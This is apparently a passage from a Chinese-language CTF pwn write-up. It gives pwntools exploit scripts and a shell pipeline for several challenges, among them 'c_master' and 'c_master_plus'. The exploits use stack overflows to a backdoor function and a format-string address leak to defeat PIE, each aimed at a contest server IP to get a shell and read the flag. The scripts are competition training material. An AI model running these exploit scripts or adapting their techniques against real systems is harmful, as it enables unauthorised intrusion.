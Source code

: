 ```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
ret=0x401825
link=remote("43.248.97.213",30223)
link.recvuntil(b":")
link.sendline(b'a'*0x38+p64(0x4012F2))
link.interactive()
```

##### 【新生专属】c_master
反编译可得base地址为rbp-0x18，以及backdoor：

![](/images/9baaa29af13f21373f06ec5c8c9a66b4.png)

为保持栈16字节对齐，选择0x4012c0  
附上shell script：

```shell
#!/bin/bash
(
echo "base+=8;"
echo "base+=8;"
echo "base+=8;"
echo "read(0,base,0x8);"
printf "\xc0\x12\x40\x00\x00\x00\x00\x00"
echo "return 0;"
cat -
) | nc 43.248.97.213 30248
```

执行即可getshell，然后cat flag即可。

##### c_master_plus
![](/images/0493a64704fa3879762944d5460a7dca.png)

第一次输入利用格式化字符串泄露栈上main函数地址，利用二进制文件内main函数偏移求出程序基址。  
第二次输入%s符合程序要求继续运行至第三次输入。  
第三次输入栈溢出至backdoor成功getshell，cat flag即可获得flag。  
附上exp：

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
link=remote("43.248.97.213",30566)
# link=process('./cmp')
link.recvuntil(b'buf>')
link.sendline(b'%23$p')
main_addr=int(link.recvline().strip(),16)
print(hex(main_addr))
binary_base=main_addr-0x1249
backdoor=binary_base+0x143a
ret=binary_base+0x101a
link.recvuntil(b'fmt>')
link.sendline(b'%s')
link.recvuntil(b'buf>')
# payload=b'a'*0x78+p64(ret)+p64(backdoor)
payload=b'a'*0x78+p64(backdoor)
link.sendline(payload)
link.interactive()
```
